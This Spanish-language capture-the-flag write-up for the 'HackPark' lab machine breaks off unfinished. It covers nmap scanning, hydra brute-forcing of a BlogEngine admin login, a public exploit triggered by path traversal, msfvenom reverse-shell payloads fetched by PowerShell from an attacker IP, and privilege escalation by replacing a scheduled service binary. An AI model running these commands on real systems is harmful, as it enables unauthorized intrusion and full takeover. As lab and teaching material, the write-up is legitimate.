 # HackPark

## Scanning

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv --open -Pn -n 10.10.65.121 -oG allports
nmap -sC -sV -p 80,3389 -Pn -n 10.10.65.121 -oN targeted
```

![0408130121](0408130121.png)

## 80

Existe una pagina en /Account/login.aspx?ReturnURL=/admin/

![0408140240](0408140240.png)

Usaremos hydra para sacar la contraseña, se probará con el usuario admin que es el usuario por defecto en blogengine

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -V 10.10.65.121 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=96wqtyMMw%2ByGDvAbjpbjmZZ%2B3iTEcRk8bDEDhs%2BgLBvn50kWyqruNVQipjhdHpq0gQqlakvET2xXrV27q6dWHOqmdRmcJyfa010SwCcc6QWAcEkZTgCQzSTY%2Fvye2ET7OgmqFOVsG8qNN3HW%2FKXBJ6Ut8iQeffwVFhK0TXeg2eSX10SD7eKDNvkF7XbDNlUTMBI7u5tmZKPiGu44%2Bscq3otARP7CMNZL%2BY7ao2pYf0D4wJlQVVHNEsmbB%2Bcgy66WvkxEGrpCLES8fntQbgFjOC%2FjpiJ7zSxe5iwndEtxGpotFSbEnfvm55y6s%2BHBfGejw61dHikt4x4ZvRlo%2BgPemEz6avsNWhKAzvY8C5AC4fIFNxtE&__EVENTVALIDATION=NcoGunaTvYWBEZN5DLfjY0ZE1Sd0Aq0oCfFBnbycegHEk3BUrMbLyKVzUoK9kqVjVyVdjQTSX6cEeoXIAU%2FNNxh6Y8dCypO7DoAxpjIkPoOhO5kpEez56r0fE6RbuzyKtsl0IV2R9DtqgEnrW2TnR0XmHODZ2g2tyvhlZvxtxXQlpDcb&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Iniciar+sesi%C3%B3n:Login failed'
```

![0408140248](0408140248.png)

## Searchsploit

```bash
# Buscamos la vulnerabilidad en searchsploit
searchsploit blogengine 3.3.6
# Lo descargamos
searchsploit -m aspx/webapps/46353.cs
```

El exploit nos indica que debemos modificar el archivo indicando nuestra IP y puerto al cual se va a conectar, ademas renombrar el archivo con el nombre de `PostView.ascx` 

![0408200825](0408200825.png)

Entramos a el siguiente enlace  con la ip del sitio web http://10.10.10.10/admin/app/editor/editpost.cshtml y usamos el *"file manager"* para agregar archivos y subimos nuestro archivo PostView.ascx|. Finalmente debemos estar escuchando con netcat con el puerto indicado en el archivo e ingresar a  http://10.10.10.10/?theme=../../App_Data/files para que se arrancar el epxloit.

![0408200839](0408200839.png)

## Cambiar a una shell de meterpreter

```bash
# Crear la shell de meterpreter
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o meterpreter_shell.exe
```

Descargarlo desde la pc atacante

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/meterpreter_shell.exe','meterpreter_shell.exe')"
```

En la consola de metasploit escuchamos

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip
set LPORT listening-port
run
```

Ejecutamos la conexion

```cmd
.\meterpreter_shell.exe
```

## Escalar privilegios con el servicio Message.exe en C:\Program Files(x86)\SystemScheduler\Message.exe

Creamos una reverse shell de nombre Message.exe así como hicimos antes

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5432 -f exe -o Message.exe
```

y lo descargamos en `C:\Program Files(x86)\SystemScheduler\Message.exe`

```bash
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/Message.exe','Message.exe')"
```

Despues de unos segundos se tendrá la conexion en meterpreter y podemos usar cmd para que nos muestre el promt y ya estaríamos como Administrator a pesar de que cuando intento usar whoami no me responde. u.u

## Sin usar meterpreter

Nos quedamos con la reverse shell usando netcat. Esta vez nos pasaremos a otra shell usando el comando:

```bash
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.13.243 LPORT=5555 -f exe -o windows_shell.exe
```

Escuchamos con netcat usando `nc -lvp 5555`

Descargamos la reverse shell antes generado con:

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/windows_shell.exe','windows_shell.exe')"
.\windows_shell.exe
```

## winpeas para analizar la maquina

usaremos este enlace https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat y lo descargamos en la maquina con 

```cmd
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.13.243:80/winPEAS.batx86','winPEASx86.bat')"
.\winPEAS.bat
```

to be continue...

